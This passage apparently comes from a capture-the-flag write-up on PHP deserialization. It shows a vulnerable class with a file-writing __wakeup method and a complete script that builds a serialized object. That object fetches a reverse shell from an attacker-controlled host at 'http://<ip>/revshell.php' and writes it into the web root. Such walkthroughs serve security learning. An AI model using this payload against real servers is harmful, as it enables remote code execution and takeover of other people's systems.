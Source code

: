 ```php

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

These two classes havn't been used anywhere yet.
We can upload a revershell as `file_get_contents()` can be used to fetch files over http as well.

So we can create our own PHP sericalized object which like this:
```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$obj = new AvatarInterface();
$obj->tmp = 'http://<ip>/revshell.php';
$obj->imgPath = '/var/www/html/revshell.php';
$data = base64_encode(serialize($obj));
echo $data;
?>
```

---
